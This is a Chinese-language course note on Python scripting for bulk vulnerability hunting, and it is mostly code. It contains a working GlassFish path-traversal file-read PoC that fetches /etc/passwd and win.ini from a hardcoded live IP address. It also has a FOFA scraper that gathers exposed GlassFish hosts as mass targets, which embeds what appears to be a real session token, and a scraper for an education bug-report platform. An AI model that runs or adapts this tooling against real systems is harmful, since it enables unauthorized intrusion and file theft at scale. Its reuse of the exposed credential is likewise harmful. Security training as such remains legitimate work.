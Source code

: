 # 思维导图

![](image77/77.png)

本课知识点：
Request 爬虫技术，lxml 数据提取，异常护理，Fofa 等使用说明

学习目的：
掌握利用公开或 0day 漏洞进行批量化的收集及验证脚本开发

# 演示案例：

### Python 开发-某漏洞 POC 验证批量脚本

- [应用服务器glassfish任意文件读取漏洞](https://www.secpulse.com/archives/42277.html)
- glassfish验证脚本

```python
import  requests
import urllib3
urllib3.disable_warnings()
# import ssl
# ssl._create_default_https_context = ssl._create_unverified_context
def glaassfish_check(url):
    url=url
    #linux系统payload
    payload_linux='/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd'
    #windows系统payload
    payload_windows='/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/windows/win.ini'
    # 获取请求后的返回源代码
    data_linux = requests.get(url=(url+payload_linux),verify=False)
    data_windows= requests.get(url=(url+payload_linux),verify=False)
    # 获取请求后的状态码
    resp_linux =data_linux.status_code
    resp_windows =data_windows.status_code
    if resp_windows==200 or resp_linux==200:
        print('glassfish任意文件读取漏洞：存在！！！')
    else:
        print('glassfish任意文件读取漏洞：不存在')
if __name__ == '__main__':
    url='https://201.73.0.83:4848'
    glaassfish_check(url)
```

#### 不存在

**手工验证**

![](image77/77-1.png)

**脚本验证**

![77-2](image77/77-2.png)

#### 存在

**手工验证**

![](image77/77-3.png)

**脚本验证**

![](image77/77-4.png)

### Python 开发-Fofa 搜索结果提取采集脚本

#### 手动采集

- 进入fofa网址（https://fofa.so/），搜索"glassfish" && port="4848"，找到可能存在漏洞的网站。

#### 批量采集

```shell
如何实现这个漏洞批量化：
1.获取到可能存在漏洞的地址信息-借助Fofa进行获取目标
    1.2 将请求的数据进行筛选
2.批量请求地址信息进行判断是否存在-单线程和多线程
```



```python
#一直显示会员版登录

# https://fofa.info/result?qbase64=ImdsYXNzZmlzaCIgJiYgcG9ydD0iNDg0OCI%3D&page=2&page_size=10
# "glassfish" && port="4848"   +str(page)+'&qbase64='
import base64
import time

import requests
from lxml import etree

cookie ='fofa_token:eyJhbGciOiJIUzUxMiIsImtpZCI6Ik5XWTVZakF4TVRkalltSTJNRFZsWXpRM05EWXdaakF3TURVMlkyWTNZemd3TUdRd1pUTmpZUT09IiwidHlwIjoiSldUIn0.eyJpZCI6MTYxMDU0LCJtaWQiOjEwMDA5Mzk1MiwidXNlcm5hbWUiOiJpc2Vjbm9vYiIsImV4cCI6MTY1MDk4NDIyNi4xODgwNzEsImlzcyI6InJlZnJlc2gifQ.cGahceI56wae-hYUsNOW_7Fm9zG_brwBQRfmYOmv-TPuFmQLlo3tRYzKINXqcqe03AD8zClFTmDj2frO7ALYkg'
def fofa_search(page):

    headers = {
    'Host': 'fofa.info',
    'Accept':'text / html, application / xhtml + xml, application / xml;q = 0.9, image / avif, image / webp, * / *;q = 0.8',
    'Accept - Encoding':'gzip, deflate, br',
    'Accept - Language':'zh - CN, zh;q = 0.8, zh - TW;q = 0.7, zh - HK;q = 0.5, en - US;q = 0.3, en;q = 0.2',
    'Cache - Control':'no - cache',
    'Connection':'keep - alive',
    'Cookie':cookie.encode('utf-8'),
    'User - Agent':'Mozilla / 5.0(Windows NT 10.0;Win64;x64;rv: 99.0) Gecko / 20100101 Firefox / 99.0'
    }
    for page in range(1, int(page + 1)):
        search_data = '"glassfish" && port="4848"'
        url = 'https://fofa.info/result?page_size=10&page=' + str(page) + '&qbase64='
        search_data = str(base64.b64encode(search_data.encode('utf-8')),'utf-8')
        urls = url + str(search_data)
        print(urls)
        try:
            print('正在提取第' + str(page) + '页数据')
            result = requests.get(url=urls, headers=headers).content
            results = result.decode('utf-8')
            print(results)
            root = etree.HTML(results)
            ip_data = root.xpath('//div[@class="aSpan"]/a[@target="_blank"]/@href')
            # # / html / body / div / div / div / div[2] / div[1] / div[2] / div[2] / div[2] / div[1] / div[1] / div[1] / span[
            # #     2] / a
            ipdata = '\n'.join(ip_data)
            with open(r'ip.txt', 'a+') as f:
                f.write(ipdata + '\n')
                f.close()
            time.sleep(0.5)

        except Exception as e:
            pass


if __name__ == '__main__':
    fofa_search(5)


```

![](image77/77-6.png)

### Python 开发-教育 SRC 报告平台信息提取脚本

![](image77/77-5.png)

```python 
import time
from lxml import etree
import requests
# url='https://src.sjtu.edu.cn/list/?page=1'
# res = requests.get(url).content
# bytes' object has no attribute 'encoding'
# python3中，编码的时候区分了字符串和二进制
# encode 改为 decode 就可以了
# https://www.cnblogs.com/wsg-python/articles/10182177.html
# https://blog.csdn.net/weixin_45437533/article/details/121560316

# resp=res.decode(encoding='utf-8',errors='strict')
# print(resp)

def edu_collect(page):
    url = 'https://src.sjtu.edu.cn/list/?page='
    for p in range(1,int(page+1)):
        try:
            url = url + str(p)
            res = requests.get(url).content
            resp = res.decode(encoding='utf-8', errors='strict')
            # print(resp)
            soup = etree.HTML(resp)
            # 推荐直接从浏览器copy fullxpath （如果有tbody记得要去掉，不然匹配不到）
            result = soup.xpath('// table / tr/ td[2] / a / text()')
            # print(result)
            results = '\n'.join(result)
            # print(results)
            resultss = results.split()
            print(resultss)
            for edu in resultss:
                with open(r'ip.txt', 'a+', encoding='utf-8') as f:
                    f.write(edu + '\n')
                    f.close()
        except Exception as e :
            time.sleep(1)
            pass

if __name__ == '__main__':
    edu_collect(10)
```



# 涉及资源：

[https://fofa.so/](https://fofa.so/)
[https://src.sjtu.edu.cn/](https://src.sjtu.edu.cn/)
[https://www.secpulse.com/archives/42277.html](https://www.secpulse.com/archives/42277.html)
[https://pan.baidu.com/s/13y3U6jX3WUYmnfKnXT8abQ 提取码：
xiao](https://pan.baidu.com/s/13y3U6jX3WUYmnfKnXT8abQ 提取码：
xiao)


